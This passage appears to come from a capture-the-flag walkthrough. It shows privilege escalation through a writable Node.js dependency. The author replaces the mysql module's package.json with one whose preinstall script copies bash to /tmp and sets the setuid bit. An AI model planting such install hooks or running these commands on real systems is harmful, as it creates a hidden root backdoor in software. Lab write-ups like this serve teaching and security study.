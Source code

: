 In the db-logger package.json `/opt/app/node_modules/db-logger/package.json` we see a mysql dependancy

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529223613.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529223613.png){:.glightbox}

now since kavi controls the mysql directory, if we can change the `package.json` found there, we can insert a "preinstall" option to get code execution.

examining the directory

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529223902.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529223902.png){:.glightbox}

okay that might seem like a problem but we own the directory containing the file, so we can move and replace `package.json`

```bash
> cp /opt/app/node_modules/mysql/package.json ~/package.json 
> rm /opt/app/node_modules/mysql/package.json 
```

now we can edit `~/package.json` to include a preinstall script and move it back

```bash
> vi ~/package.json


...SNIP


  "scripts": {
    "lint": "eslint . && node tool/lint-readme.js",
    "test": "node test/run.js",
    "test-ci": "node tool/install-nyc.js --nyc-optional --reporter=text -- npm test",
    "test-cov": "node tool/install-nyc.js --reporter=html --reporter=text -- npm test",
    "version": "node tool/version-changes.js && git add Changes.md",
    
    "preinstall":"cp /bin/bash /tmp/sbash && chmod +s /tmp/sbash"
    
  },
  "version": "2.18.1"
}



```